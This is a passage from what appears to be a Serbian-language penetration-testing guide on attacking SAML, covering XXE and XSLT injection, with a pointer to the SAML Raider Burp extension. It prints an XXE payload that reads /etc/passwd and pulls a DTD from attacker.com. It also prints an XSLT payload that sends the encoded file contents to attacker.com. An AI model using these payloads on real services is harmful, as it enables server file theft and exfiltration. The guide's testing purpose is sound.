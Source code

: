 SAML odgovori su **deflacionisani i kodirani XML dokumenti** i mogu biti podložni napadima na XML spoljne entitete (XXE). Manipulacijom XML strukture SAML odgovora, napadači mogu pokušati da iskoriste XXE ranjivosti. Evo kako se takav napad može vizualizovati:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY    file SYSTEM "file:///etc/passwd">
<!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
<samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
<saml:Issuer>...</saml:Issuer>
<ds:Signature ...>
<ds:SignedInfo>
<ds:CanonicalizationMethod .../>
<ds:SignatureMethod .../>
<ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
</ds:SignedInfo>
<ds:SignatureValue>...</ds:SignatureValue>
[...]
```

## Alati

Takođe možete koristiti Burp ekstenziju [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) za generisanje POC-a iz SAML zahteva kako biste testirali moguće XXE ranjivosti i SAML ranjivosti.

Pogledajte takođe ovaj govor: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT putem SAML-a

Za više informacija o XSLT-u idite na:

{% content-ref url="../xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

Ekstenzibilni jezik transformacija stilskih listova (XSLT) može se koristiti za transformisanje XML dokumenata u različite formate kao što su HTML, JSON ili PDF. Važno je napomenuti da se **XSLT transformacije vrše pre verifikacije digitalnog potpisa**. To znači da napad može biti uspešan čak i bez validnog potpisa; dovoljan je samopotpisani ili nevažeći potpis da bi se nastavilo.

Ovde možete pronaći **POC** za proveru ovakvih vrsta ranjivosti, na hacktricks stranici koja je pomenuta na početku ove sekcije možete pronaći zahteve.

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
...
<ds:Transforms>
<ds:Transform>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="doc">
<xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
<xsl:variable name="escaped" select="encode-for-uri($file)"/>
<xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
<xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
<xsl:value-of select="unparsed-text($exploitUrl)"/>
</xsl:template>
</xsl:stylesheet>
</ds:Transform>
</ds:Transforms>
...
```